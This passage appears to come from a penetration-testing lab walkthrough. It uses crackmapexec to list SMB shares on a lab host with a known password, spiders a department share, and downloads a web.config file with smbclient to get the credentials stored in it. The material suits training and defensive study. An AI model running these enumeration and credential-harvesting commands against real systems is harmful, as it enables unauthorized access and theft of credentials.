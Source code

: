 ```zsh
sudo crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 --shares
```

![](../imgs/Lab/Lab28/13.png)

We get 4 readable shares: `Department Shares`, `IPC$`, `NETLOGON`, `SYSVOL`

Look for some interesting files, we find one in `Department Shares` share (web.config)

```zsh
sudo crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 -M spider_plus --share 'Department Shares'
cat /tmp/cme_spider_plus/172.16.7.3.json
```

![](../imgs/Lab/Lab28/14.png)

![](../imgs/Lab/Lab28/15.png)

Access the file `web.config` and get the credential

```zsh
smbclient //172.16.7.3/Department\ Shares -U=BR086%Welcome1
smb: \> cd IT\Private\Development\
smb: \IT\Private\Development\> get web.config
```
